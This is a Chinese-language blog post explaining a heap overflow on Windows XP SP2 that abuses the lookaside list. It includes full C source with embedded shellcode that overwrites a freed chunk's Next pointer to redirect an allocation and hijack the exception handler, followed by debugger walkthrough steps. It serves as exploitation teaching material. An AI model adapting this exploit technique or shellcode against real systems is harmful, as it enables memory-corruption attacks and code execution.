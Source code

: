 ```yaml
---
layout:		post
title:		利用Lookaside表进行堆溢出
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp2 x86  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>注意: 原版OD调试堆时有些问题, 建议用吾爱OD
<!-- more -->


### 0x00 前期准备

新建一个工程, 贴入以下代码

```
#include "stdafx.h"
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\xEB\x40\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x03\x00\x03\x00\x5C\x01\x08\x99"
"\xE4\xFF\x12\x00"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7";


int main(int argc, char* argv[])
{
	HLOCAL h1,h2,h3;
	HANDLE hp;

	hp = HeapCreate(0,0,0);
	h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);

	HeapFree(hp,0,h3);
	HeapFree(hp,0,h2);
	memcpy(h1,shellcode,300);

	h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	h3 = HeapAlloc(hp,HEAP_ZERO_MEMORY,16);
	memcpy(h3,"\x90\x1E\x3A\x00",4);

	int zero = 0;
	zero = 1/zero;
	printf("%d",zero);

	return 0;
}
```

OD附加上去, 单步到完成三次分配

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x00.png)

当释放h3, 快表头指向了h3

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x01.png)

当释放h2, 快表头->h2->h3, 后释放节点会优先链到接近快表头

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x02.png)
![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x03.png)


### 0x01 exploit

执行memcpy覆盖h2的Next指针

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x04.png)

再次请求分配16 byte, 快表优先把靠近快表头的h2分配出去, 造成快表头->0x0012FFE4

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x05.png)

当仔请求分配时, 快表就把0x0012FFE4地址分配出去

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x06.png)

往h3指向地址写入shellcode地址

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x07.png)

触发异常, pwn~

![](/assets/img/exploit/2018-01-01-exploit-by-chunk-lookaside/0x08.png)

当然, 不调试直接运行还是要将基址改成0x00390000